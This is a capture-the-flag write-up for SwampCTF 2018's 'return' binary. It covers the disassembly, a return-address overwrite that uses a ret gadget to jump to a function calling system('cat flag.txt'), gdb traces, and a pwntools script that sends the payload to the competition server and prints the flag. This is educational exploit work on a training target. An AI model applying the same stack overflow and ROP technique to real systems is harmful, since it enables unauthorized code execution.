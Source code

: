 # For return in swampctf 2018

This is how the program worked.
```
solomonbstoner@swjsUbuntu:~/Downloads$ ./return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 
hello there
Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day...
solomonbstoner@swjsUbuntu:~/Downloads$ 
```
The program reads only up to 50 bytes from your input. Any more than that will be ignored.


### Analysis of the program

This is the portion of the program that read our input and gave the following output. It is part of the `<doBattle>` function.
```
0x804852d:   e8 5e fe ff ff         	call 0x8048390 <read>  ;read(stdin, 0xffffced2, 50 chars)
0x8048532:   83 c4 10               	add esp, 0x10
0x8048535:   8d 45 da               	lea eax, dword [ ebp + 0xffffffda ]
0x8048538:   83 c0 2a               	add eax, 0x2a
0x804853b:   8b 00                  	mov eax, dword [ eax ]
0x804853d:   89 c2                  	mov edx, eax
0x804853f:   b8 95 85 04 08         	mov eax, 0x8048595
0x8048544:   39 c2                  	cmp edx, eax
0x8048546:   76 2b                  	jbe 0x8048573 <doBattle+0x78>
0x8048548:   83 ec 0c               	sub esp, 0xc
0x804854b:   68 4c 87 04 08         	push 0x804874c ; "Oh no! Your actions are completely ineffective! The allip approaches and as it nears, you feel its musty breath and are paralyzed with fear. It gently caresses your cheek, and you turn and flee the dungeon, leaving the battle to be fought another day..."
0x8048550:   e8 5b fe ff ff         	call 0x80483b0 <puts>
```

Something is very perculiar about...
```
0x804853f:   b8 95 85 04 08         	mov eax, 0x8048595
0x8048544:   39 c2                  	cmp edx, eax
0x8048546:   76 2b                  	jbe 0x8048573 <doBattle+0x78>
```
... in that it takes 4 bytes of our input located at `0xffffcefc` and compares it to the value `0x8048595`. If our input is lesser, then it essentially becomes the address to which `<doBattle>` returns after it ends.


This means we have very limited addresses that we can return to, and definitely cannot return to the stack (as it is in address `0xffffced2`). To overcome this problem, I put the return address to `0x8048372:   c3    	ret` from the `<_init>` function. Then we get to return to anywhere we want.

Shall we return to the stack to run a shellcode from there? Would have if I could have. The stack has NX bit set. 
```
solomonbstoner@swjsUbuntu:~/Downloads$ readelf -l return | grep -i "Stack"
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
```

Actually, I soon realised there was a function called `<slayTheBeast>`. In it contains these 2 instructions.
```
0x8048615:   68 ea 8a 04 08         	push 0x8048aea ; "cat flag.txt\n"
0x804861a:   e8 a1 fd ff ff         	call 0x80483c0 <system>
```
That is all we need to get a flag printed out; by calling `system("cat flag.txt")`.

### Winning this challenge

This is the format of my input:
```
<42 * 'a'>< 0x8048372 >< 0x8048615 >
```

Let's go for a test run:
```
solomonbstoner@swjsUbuntu:~/Downloads$ echo -e "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x72\x83\x04\x08\x15\x86\x04\x08" > exploit\ for\ return

(gdb) run < exploit\ for\ return
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/solomonbstoner/Downloads/return < exploit\ for\ return
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do: 

Breakpoint 3, 0x0804852d in doBattle ()
=> 0x0804852d <doBattle+50>:	e8 5e fe ff ff	call   0x8048390 <read@plt>
(gdb) c
Continuing.

Breakpoint 2, 0x08048532 in doBattle ()
=> 0x08048532 <doBattle+55>:	83 c4 10	add    esp,0x10
(gdb) x/32x 0xffffced2
0xffffced2:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcee2:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffcef2:	0x61616161	0x61616161	0x83726161	0x86150804
0xffffcf02:	0xcf200804	0x0000ffff	0x06370000	0xa000f7e1
0xffffcf12:	0xa000f7fa	0x0000f7fa	0x06370000	0x0001f7e1
0xffffcf22:	0xcfb40000	0xcfbcffff	0x0000ffff	0x00000000
0xffffcf32:	0x00000000	0xa0000000	0xdc04f7fa	0xd000f7ff
0xffffcf42:	0x0000f7ff	0xa0000000	0xa000f7fa	0x0000f7fa
(gdb) c
Continuing.

Breakpoint 5, 0x08048546 in doBattle ()
=> 0x08048546 <doBattle+75>:	76 2b	jbe    0x8048573 <doBattle+120>
(gdb) p/x $eax
$11 = 0x8048595
(gdb) p/x $edx
$12 = 0x8048372
(gdb) c
Continuing.
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.

Breakpoint 4, 0x08048596 in doBattle ()
=> 0x08048596 <doBattle+155>:	c3	ret    
(gdb) x/2x $esp
0xffffcefc:	0x08048372	0x08048615
(gdb) ni
0x08048372 in _init ()
=> 0x08048372 <_init+34>:	c3	ret    
(gdb) 
0x08048615 in slayTheBeast ()
=> 0x08048615 <slayTheBeast+58>:	68 ea 8a 04 08	push   0x8048aea
(gdb) 
0x0804861a in slayTheBeast ()
=> 0x0804861a <slayTheBeast+63>:	e8 a1 fd ff ff	call   0x80483c0 <system@plt>
(gdb) 
cat: flag.txt: No such file or directory
```

It worked!!

So, I fed the input into the server, and I got the flag 
```
from pwn import *
shellcode ="\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x72\x83\x04\x08\x15\x86\x04\x08"
p = remote("chal1.swampctf.com", 1802)
print p.recvuntil("what you do:")
p.send(shellcode)
p.interactive()
```
```
solomonbstoner@swjsUbuntu:~/Downloads$ python return.py
[+] Opening connection to chal1.swampctf.com on port 1802: Done
As you stumble through the opening you are confronted with a nearly-immaterial horror: An Allip!  The beast lurches at you; quick! Tell me what you do:
[*] Switching to interactive mode
 
Your actions take the Allip by surprise, causing it to falter in its attack!  You notice a weakness in the beasts form and see a glimmer of how it might be defeated.
flag{f34r_n0t_th3_4nc13n7_R0pn1qu3}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to chal1.swampctf.com port 1802
```

END
